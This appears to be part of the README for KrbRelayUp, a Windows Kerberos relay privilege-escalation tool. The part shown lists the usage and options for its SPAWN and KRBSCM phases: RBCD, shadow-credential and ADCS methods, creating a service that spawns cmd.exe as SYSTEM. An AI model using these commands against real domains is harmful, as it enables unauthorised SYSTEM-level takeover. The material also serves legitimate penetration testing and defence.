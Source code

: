 ```
    -cet (--CertificateTemplate)      Certificate template to request for (default=Machine)


SPAWN: Second phase of the attack. Will use the appropriate control primitive to obtain a Kerberos Service Ticket and will use it to create a new service running as SYSTEM.
Usage: KrbRelayUp.exe spawn -d FQDN -cn COMPUTERNAME [-cp PASSWORD | -ch NTHASH] <-i USERTOIMPERSONATE>

    -m   (--Method)                   Abuse method used in RELAY phase <rbcd/shadowcred> (default=rbcd)
    -i   (--Impersonate)              User to impersonate. should be a local administrator in the target computer. (default=Administrator)
    -s   (--ServiceName)              Name of the service to be created. (default=KrbSCM)
    -sc  (--ServiceCommand)           Service command [binPath]. (default = spawn cmd.exe as SYSTEM)

    # RBCD Method:
    -cn  (--ComputerName)             Name of attacker owned computer account for RBCD. (default=KRBRELAYUP$)
    -cp  (--ComputerPassword)         Password of computer account for RBCD. (either -cp or -ch must be specified)
    -ch  (--ComputerPasswordHash)     Password NT hash of computer account for RBCD. (either -cp or -ch must be specified)

    # SHADOWCRED | ADCS Method:
    -ce  (--Certificate)              Base64 encoded certificate or path to certificate file
    -cep (--CertificatePassword)      Certificate password (if applicable)


KRBSCM: Will use the currently loaded Kerberos Service Ticket to create a new service running as SYSTEM.
Usage: KrbRelayUp.exe krbscm <-s SERVICENAME> <-sc SERVICECOMMANDLINE>

    -s  (--ServiceName)              Name of the service to be created. (default=KrbSCM)
    -sc (--ServiceCommand)           Service command [binPath]. (default = spawn cmd.exe as SYSTEM)


General Options:
    -d  (--Domain)                   FQDN of domain. (Optional)
    -dc (--DomainController)         FQDN of domain controller. (Optional)
    -ssl                             Use LDAP over SSL. (Optional)
    -n                               Use CreateNetOnly (needs to be on disk) instead of PTT when importing ST (enabled if using FULL mode)
    -v  (--Verbose)                  Show verbose output. (Optional)
```

## Examples

![example](Images/example_rbcd.png)
![example](Images/example_shadowcred.png)
![example](Images/example_adcs.png)
